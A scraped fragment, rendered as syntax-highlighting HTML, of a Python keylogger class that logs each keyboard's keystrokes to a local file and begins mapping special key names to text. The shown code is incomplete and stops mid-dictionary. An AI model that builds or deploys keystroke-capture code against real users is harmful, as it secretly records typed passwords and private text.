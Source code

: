 ```yaml
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="python" style="font-family:monospace;"><span style="color: #ff7700;font-weight:bold;">class</span> Keylogger<span style="color: black;">&#40;</span>Thread<span style="color: black;">&#41;</span>:
    <span style="color: #483d8b;">&quot;&quot;&quot;Keylogger for a single keyboard&quot;&quot;&quot;</span>
    <span style="color: #ff7700;font-weight:bold;">def</span> <span style="color: #0000cd;">__init__</span><span style="color: black;">&#40;</span><span style="color: #008000;">self</span><span style="color: #66cc66;">,</span> keyboard<span style="color: black;">&#41;</span>:
    Thread.<span style="color: #0000cd;">__init__</span><span style="color: black;">&#40;</span><span style="color: #008000;">self</span><span style="color: black;">&#41;</span>
    <span style="color: #008000;">self</span>._keyboard <span style="color: #66cc66;">=</span> keyboard
    <span style="color: #008000;">self</span>._filename <span style="color: #66cc66;">=</span> <span style="color: #483d8b;">'keyboard%d.log'</span> % <span style="color: #008000;">self</span>._keyboard
    <span style="color: #008000;">self</span>._file <span style="color: #66cc66;">=</span> <span style="color: #008000;">open</span><span style="color: black;">&#40;</span><span style="color: #008000;">self</span>._filename<span style="color: #66cc66;">,</span> <span style="color: #483d8b;">'w+'</span><span style="color: black;">&#41;</span>
    <span style="color: #008000;">self</span>.__define_constants<span style="color: black;">&#40;</span><span style="color: black;">&#41;</span>
    &nbsp;
    <span style="color: #ff7700;font-weight:bold;">def</span> <span style="color: #0000cd;">__del__</span><span style="color: black;">&#40;</span><span style="color: #008000;">self</span><span style="color: black;">&#41;</span>:
    <span style="color: #008000;">self</span>.__exit__<span style="color: black;">&#40;</span><span style="color: black;">&#41;</span>
    &nbsp;
    <span style="color: #ff7700;font-weight:bold;">def</span> __exit__<span style="color: black;">&#40;</span><span style="color: #008000;">self</span><span style="color: black;">&#41;</span>:
    <span style="color: #008000;">self</span>._file.<span style="color: black;">close</span><span style="color: black;">&#40;</span><span style="color: black;">&#41;</span>
    &nbsp;
    <span style="color: #ff7700;font-weight:bold;">def</span> run<span style="color: black;">&#40;</span><span style="color: #008000;">self</span><span style="color: black;">&#41;</span>:
    <span style="color: #008000;">self</span>._log<span style="color: black;">&#40;</span><span style="color: black;">&#41;</span>
    &nbsp;
    <span style="color: #ff7700;font-weight:bold;">def</span> __define_constants<span style="color: black;">&#40;</span><span style="color: #008000;">self</span><span style="color: black;">&#41;</span>:
    <span style="color: #008000;">self</span>._special_chars <span style="color: #66cc66;">=</span> <span style="color: black;">&#123;</span>
    <span style="color: #483d8b;">'space'</span>: <span style="color: #483d8b;">' '</span><span style="color: #66cc66;">,</span>
    <span style="color: #483d8b;">'apostrophe'</span>: <span style="color: #483d8b;">&quot;'&quot;</span><span style="color: #66cc66;">,</span>
    <span style="color: #483d8b;">'BackSpace'</span>: <span style="color: #483d8b;">' (Backspace) '</span><span style="color: #66cc66;">,</span>
    <span style="color: #483d8b;">'Return'</span>: <span style="color: #483d8b;">' <span style="color: #000099; font-weight: bold;">\n</span>'</span><span style="color: #66cc66;">,</span>
    <span style="color: #483d8b;">'period'</span>: <span style="color: #483d8b;">'.'</span><span style="color: #66cc66;">,</span>
    <span style="color: #483d8b;">'Shift_L1'</span>: <span style="color: #483d8b;">' (Shift1) '</span><span style="color: #66cc66;">,</span>
    <span style="color: #483d8b;">'Shift_L2'</span>: <span style="color: #483d8b;">' (Shift2) '</span><span style="color: #66cc66;">,</span>
    <span style="color: #483d8b;">'Control_L'</span>: <span style="color: #483d8b;">' (ControlL) '</span><span style="color: #66cc66;">,</span>
    <span style="color: #483d8b;">'ccedilla'</span>: <span style="color: #483d8b;">'ç'</span><span style="color: #66cc66;">,</span>
    <span style="color: #483d8b;">'backslash'</span>: <span style="color: #483d8b;">'<span style="color: #000099; font-weight: bold;">\\</span>'</span><span style="color: #66cc66;">,</span>
```